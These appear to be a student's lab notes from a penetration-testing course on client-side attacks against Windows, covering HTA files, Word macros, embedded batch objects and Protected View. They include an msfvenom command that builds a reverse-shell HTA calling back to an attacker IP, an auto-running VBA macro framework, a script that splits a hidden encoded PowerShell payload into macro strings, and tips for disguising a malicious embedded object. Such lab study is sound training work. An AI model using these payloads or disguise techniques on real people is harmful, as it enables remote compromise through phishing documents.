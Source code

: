 # 13.2.3 Leveraging HTML Application
#### Exercises
_(To be performed on your own Kali and Windows lab client machines)_

**1.  Use msfvenom to generate a HTML Application and use it to compromise your Windows client.**

If a file is saved as with an .hta instead of an .htm extension, internet explorer will automatically interpret it as HTML and off the ability to execute using mshta.exe. Since the HTML application is being executed outside the safety of the browser, we are free to use dangerous legacy code that may normally be blocked within the browser. For the following example we are going to leverage ActiveXObjects.

The following PoC should launch the calculator in our test environment:
```
<html>
<body>

<script>

  var c= 'calc.exe'
  new ActiveXObject('WScript.Shell').Run(c);
  
</script>

</body>
</html>
```

Placing this in our html folder on our kali machine and then navigated to the poc.hta endpoint on our windows test machine and we see the following:
![[ie_poc_open.png]]

When we run the PoC we get a successful calc.exe command:
![[calc_open.png]]


Now we can move into utilizing msfvenom to alter our hta page and create a new powershell based payload. We can use the following command:
`sudo msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f hta-psh -o /var/www/html/reverse.hta`

Once generated, we need to setup a listener on the specified port and navigate to the endpoint on our Windows test machine and we will get a reverse shell.

![[reverse_poc_poc.png]]
![[course notes/images/13_client_side_attacks/rev_shell.png]]

**2.  Is it possible to use the HTML Application attack against Microsoft Edge users, and if so, how?**
Yes, upon testing with Microsoft Edge the hta file was successful in obtaining a reverse shell.

![[rverse_poc_download.png]]
![[reverse_poc_run.png]]
Upon clicking "Run" we recieve our connection.
![[rev_shell2.png]]


# 13.3.3 Microsoft Word Macro
#### Exercises
**1. Use the PowerShell payload from the HTA attack to create a Word macro that sends a reverse shell to your Kali system.**

To start, we need to create a framework for our Microsoft Word macro. We use the following code as that framework:
```
Sub AutoOpen()

  MyMacro
  
End Sub

Sub Document_Open()

  MyMacro
  
End Sub

Sub MyMacro()

  CreateObject("Wscript.Shell").Run "cmd"
  
End Sub

```
This includes the AutoOpen and Document_Open procedures, which will cause the macro to run automatically.

Upon reopening the document, we see that a warning is present warning that macros are enabled.
![[enable_content.png]]

Once the victim clicks "Enable Content" our PoC macro executes and we see cmd.exe.
![[command_cmd.png]]

From here we are going to turn to Powershell in order to reuse our Metasploit shellcode. We first declare a variable called "Str".  From there we need to set our variable to the base64 encoded string of the shellcode. As VBA has a 255 character limit for strings we can split the command into multiple lines before concatenated them. To do this we will use the following python code.

```
str = "powershell.exe -nop -w hidden -e BASE64_ENCODED_SHELL....."

n = 50

for i in range(0, len(str), n):
	print "Str = Str + " + '"' + str[i:i+n] + '"'
```
We then update our macro to include this newly split shellcode and to run the variable "Str" which is set to this shellcode.
![[word_macro_shell.png]]

From here, we just need to start a listener and open the document and we recieve our reverse shell.
![[course notes/images/13_client_side_attacks/rev_shell_3.png]]

# 13.3.5 Object Linking and Embedding
#### Exercises
_(To be performed on your own Kali and Windows lab client machines)_

**1.  Use the PowerShell payload to create a batch file and embed it in a Microsoft Word document to send a reverse shell to your Kali system.**

To begin, we need to create a batch to be embedded into Microsoft Word. To do this we simply echo our base64 encoded shellcode into an object named "lanch.bat" 
![[create_payload.png]]

We then need to open Microsoft Word and insert our launch.bat object.
![[new_object.png]]

We can even change the name and icon of the malicious file to be more inconspicuous. 
![[object_rename.png]]

Once we open our Word document and launch our object we will recieve a reverse shell.
![[object_launch.png]]

# 13.3.7Evading Protected View
#### Exercises
_(To be performed on your own Kali and Windows lab client machines)_

**1.  Trigger the protection by Protected View by simulating a download of the Microsoft Word document from the Internet.**

We can trigger the Protected View by simply downloading our document from our Apache web server.
![[doc_download.png]]
![[doc_protected_view.png]]

**2.  Reuse the batch file and embed it in a Microsoft Publisher document to receive a reverse shell to your Kali system.**

Creating the object in Microsoft Publisher using our previous methods allows us to gain a reverse shell.
![[publisher_object_launch.png]]
Once the object is run we receive our connection.
![[rev_shell_4.png]]


**3.  Move the file to the Apache web server to simulate the download of the Publisher document from the Internet and confirm the missing Protected View.**

Once we move the Publisher file to our Apache server and download the file we can see that the "Protected View" is no longer present.

![[publisher_download.png]]![[publisher_object.png]]